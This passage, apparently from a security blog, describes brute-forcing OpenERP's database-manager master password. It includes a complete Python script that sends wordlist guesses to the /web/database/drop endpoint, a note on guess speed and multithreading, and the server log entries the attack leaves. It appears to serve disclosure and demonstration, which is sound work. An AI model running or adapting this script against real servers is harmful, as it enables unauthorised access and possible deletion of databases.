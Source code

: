 That gives us our “bad password” criteria. Here is the result if I submit a fake database with the correct password.

![Post in Burp](/images/OpenERPPost4.jpg)

That gives us our “good password” criteria. From here, it is trivial to load up a word list in BurpSuite and brute force the password. To make things even easier (and on the advice of some helpful people in ##security on Freenode), I wrote the following python script to brute force the password using a word list:

{% highlight python %}
#!/usr/bin/python
import sys, requests, json
url = 'http://10.110.6.13:8069/web/database/drop'
headers = {'Accept':'application/json, text/javascript, */*; q=0.01',
      'Accept-Encoding':'gzip, deflate',
      'Referer': 'http://10.110.6.13:8069/web/database/manager',
      'Content-Type': 'application/json; charset=UTF-8'}
wordlist = open(sys.argv[1], "r")
attempt = 0
for word in wordlist:
  attempt += 1
  print("Attempt number %s: %s" % (attempt, word.strip()))
  data = {'jsonrpc':'2.0',
      'method':'call',
      'params':
        {'fields':
          [{'name':'drop_db', 'value':'InvalidDB'},
          {'name':'drop_pwd', 'value':word.strip()}]},
      'id':123456789}
  resp = requests.post(url, data=json.dumps(data), headers=headers)
  result = resp.json()
  if not result['result']:
    print('Password is ' + word)
    exit(0)

{% endhighlight %}

This script manages about 50 passwords per second.  While this definitely isn't the *fastest* brute force, there are no slowdowns.  This could probably be modified to run multithreaded and get much higher speeds.  What does this show in OpenERP's log files?


    2014-09-08 16:46:07,196 752 INFO None werkzeug: 10.110.6.12 - - [08/Sep/2014 16:46:07] "POST /web/database/drop HTTP/1.1" 200 - 
    2014-09-08 16:46:07,212 752 INFO None werkzeug: 10.110.6.12 - - [08/Sep/2014 16:46:07] "POST /web/database/drop HTTP/1.1" 200 - 
    2014-09-08 16:46:07,229 752 INFO None werkzeug: 10.110.6.12 - - [08/Sep/2014 16:46:07] "POST /web/database/drop HTTP/1.1" 200 -
    2014-09-08 16:46:07,423 752 INFO None werkzeug: 10.110.6.12 - - [08/Sep/2014 16:46:07] "POST /web/database/drop HTTP/1.1" 200 -
